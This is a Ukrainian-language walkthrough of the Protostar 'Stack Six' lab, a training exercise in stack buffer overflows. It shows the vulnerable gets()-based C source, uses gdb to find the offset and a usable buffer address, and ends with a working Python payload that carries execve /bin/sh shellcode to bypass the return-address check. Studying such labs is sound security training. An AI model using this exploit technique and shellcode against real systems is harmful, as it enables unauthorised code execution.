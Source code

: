 ## [Stack Six](http://exploit.education/protostar/stack-six/)

Stack6 демонструє, що відбувається, коли у вас є обмеження щодо адреси повернення.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

Знайдемо буфер стека для переповнення:
```
gdb ./stack6
...
disassemble getpath
```

![Disassemble getpath](img/disassemble_getpath.png)

Компілятор використовує EBP як орієнтир для локальних змінних, що полегшує обчислення. 
Буфер розташований на ```0x4c``` або 76 байта від EBP, тому для перезапису зворотної адреси нам просто потрібно записати ще 4 байти. 
Ми могли б знайти буфер користувача в пам'яті під час тестування обчислень таким чином:  
```
ulimit -c unlimited
python -c "print('B' * 80 + 'AAAA')" | ./stack6
...
gdb ./stack6 /tmp/core.11.stack6.1642
...
x/40x $esp-100
```

![Core Dump](img/core_dump.png)

Отже, маємо адресу ```0xbffffс9c```

Якщо спробувати атакувати як раніше, то нічого не вийде, бо у програмі є перевірка значення адреси повернення:  
```python -c "print('\xcc' * 80 + '\xbf\xff\xfc\x9c'[::-1])" | ./stack6``` 

![Bzzzt](img/bzzzt.png) 

#### Duplicate payload  

Можливо, ми зможемо знайти десь у пам'яті адрусу, яка не починається з ```0xbf......```. 
Давайте завантажимо дамп ядра з попереднього прикладу та спробуємо знайти буфер за більш зручною адресою:  
```
gdb ./stack6 /tmp/core.11.stack6.1642
...
info files
...
find /w1 0xb7fde000, 0xb7fe2000, 0x42424242
```

![Pattern found](img/pattern_found.png)

Витративши деякий час на перебір варіантів виявляється, що наш буфер дійсно знаходиться за іншою адресою, ```0xb7fde000```. Отже, маємо:  
```(python -c "print('\x90' * 4 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (80 - 24 - 4) + '\xb7\xfd\xe0\x04'[::-1])"; cat) | ./stack6```  

![Shell test](img/shell_test.png)